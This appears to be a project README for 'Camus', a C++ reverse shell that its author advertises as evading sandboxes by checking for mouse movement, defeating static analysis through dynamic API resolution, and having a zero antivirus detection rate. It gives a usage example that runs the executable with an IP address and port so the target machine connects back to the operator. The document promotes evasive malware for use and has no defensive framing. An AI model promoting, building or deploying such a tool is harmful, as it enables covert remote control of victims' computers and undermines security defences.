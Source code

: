 # Camus

<div style="text-align: center; ">
  <img src="Images/1.jpg" width="200">
</div>

Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

How to Use:
1. Run the program alongside with the IP address and port as inputs
   for example: Camus.exe 192.168.1.1 555


 <img src="Images/Antiscan.png" width="1000">
